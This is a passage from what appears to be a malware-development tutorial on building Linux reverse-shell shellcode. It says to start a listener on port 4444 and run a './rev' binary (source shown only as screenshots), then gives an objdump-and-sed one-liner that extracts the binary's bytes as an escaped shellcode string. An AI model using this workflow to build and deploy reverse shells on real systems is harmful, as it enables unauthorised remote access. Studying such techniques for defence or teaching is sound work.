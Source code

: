 ![compile shellcode 2](./images/14/2021-10-16_13-57.png){width="80%"}       

Prepare listener on `4444` port and run:
```bash
./rev
```

![compile shellcode 2](./images/14/2021-10-16_14-08.png){width="80%"}       

Perfect!

Then, extract byte code via some bash hacking and `objdump`:
```bash
objdump -d ./rev|grep '[0-9a-f]:'|grep -v 'file'|cut -f2
 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|
 sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![get hex](./images/14/2021-10-16_13-58.png){width="80%"}       
